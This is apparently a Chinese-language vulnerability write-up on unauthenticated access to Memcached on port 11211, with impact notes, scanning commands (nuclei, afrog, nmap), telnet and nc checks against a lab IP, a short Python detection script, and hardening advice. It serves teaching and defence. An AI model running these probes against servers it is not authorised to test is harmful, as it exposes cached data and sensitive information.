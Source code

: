 # Memcached 未授权访问漏洞

| 说明     | 内容                         |
| -------- | ---------------------------- |
| 漏洞编号 | CVE-2013-7239                |
| 漏洞名称 | Memcached 未授权访问         |
| 漏洞评级 |                              |
| 影响范围 | Memcached全版本              |
| 漏洞描述 |                              |
| 修复方案 | <a href="#miao">见底部</a>； |

### 1.1、漏洞描述

Memcached 是一套常用的 key-value 分布式高速缓存系统

由于memcached安全设计缺陷，默认的 11211 端口不需要密码即可访问，导致攻击者可直接链接memcache服务的11211端口获取数据库中信息，这可造成严重的信息泄露。

### 1.2、漏洞影响

 除memcached中数据可被直接读取泄漏和恶意修改外，由于memcached中的数据像正常网站用户访问提交变量一样会被后端代码处理，当处理代码存在缺陷时会再次导致不同类型的安全问题。

 不同的是，在处理前端用户直接输入的数据时一般会接受更多的安全校验，而从memcached中读取的数据则更容易被开发者认为是可信的，或者是已经通过安全校验的，因此更容易导致安全问题。

由此可见，导致的二次安全漏洞类型一般由memcached数据使用的位置（XSS通常称之为sink）的不同而不同，如：

```
  （1）缓存数据未经过滤直接输出可导致XSS；

  （2）缓存数据未经过滤代入拼接的SQL注入查询语句可导致SQL注入；

  （3）缓存数据存储敏感信息（如：用户名、密码），可以通过读取操作直接泄漏；

  （4）缓存数据未经过滤直接通过system()、eval()等函数处理可导致命令执行；

  （5）缓存数据未经过滤直接在header()函数中输出，可导致CRLF漏洞（HTTP响应拆分）。

   … …
```



### 1.3、影响版本

<p style="color:red">Memcached全版本</p>

### 1.4、漏洞复现

#### 1、基础环境

Linux：https://www.runoob.com/memcached/memcached-install.html

Windows：https://www.runoob.com/memcached/window-install-memcached.html

---

启动测试环境：

```bash
sudo memcached -p 11211 -m 64m -vv -u root
```

![image-20231216094626497](./imgs/image-20231216094626497.png)

#### 2、漏洞扫描

##### 2.1、nuclei扫描

```
.\nuclei.exe -u 10.9.75.7
```



![image-20231216095121832](./imgs/image-20231216095121832.png)

##### 2.2、Afrog扫描

```
.\afrog.exe -t 10.9.75.7
```



![image-20231216095332402](./imgs/image-20231216095332402.png)



##### 2.3、nmap扫描

```bash
nmap -p 11211 --script memcached-info 10.9.75.7
```



![image-20231216095547717](./imgs/image-20231216095547717.png)

#### 3、漏洞验证

##### 3.1、telnet验证

telent连接成功后，使用命令`stats`返回统计信息例如 PID(进程号)、版本号、连接数等

> stats命令字解释及参数介绍
>
> https://www.runoob.com/memcached/memcached-stats.html

![image-20231216094532331](./imgs/image-20231216094532331.png)

##### 3.2、nc验证

```bash
nc -vv 10.9.75.7 11211 
```



![image-20231216095813248](./imgs/image-20231216095813248.png)

##### 3.3、POC验证

```python
#!/usr/bin/python3
 
 
import argparse
 
import pymemcache
 
 
# 命令行参数解析
 
parser = argparse.ArgumentParser(description='Check Memcached Unauthorized Access Vulnerability.')
 
parser.add_argument('-u', '--url', dest='url', metavar='IP:PORT', required=True, help='The IP address and port of the target Memcached server.')
 
 
# 解析命令行参数
 
args = parser.parse_args()
 
server, port = args.url.split(':')
 
 
# 检测Memcached是否存在未授权访问漏洞
 
def check_memcached_vuln():
 
    # 尝试建立连接
 
    client = pymemcache.client.base.Client((server, int(port)))
 
    # 尝试进行get操作，如果成功则代表存在未授权访问漏洞
 
    try:
 
        client.get('test')
 
        print(f'[+]{server}:{port} 存在安全漏洞!')
 
    except:
 
        print(f'[-]{server}:{port} 未检测到漏洞!')
 
 
if __name__ == '__main__':
 
    check_memcached_vuln()
```



### 1.5、修复建议

<p id="miao">~~~~~~~</p>

1、配置memcached监听本地回环地址127.0.0.1。

```
[root@local ~]# vim /etc/sysconfig/memcached

OPTIONS="-l 127.0.0.1" #设置本地为监听

[root@local ~]# /etc/init.d/memcached restart #重启服务
```

2、当memcached配置为监听内网IP或公网IP时，使用主机防火墙（iptalbes、firewalld等）和网络防火墙对memcached服务端口进行过滤。

3、配置访问控制策略。

4、最小化权限运行。

5、修改默认端口等。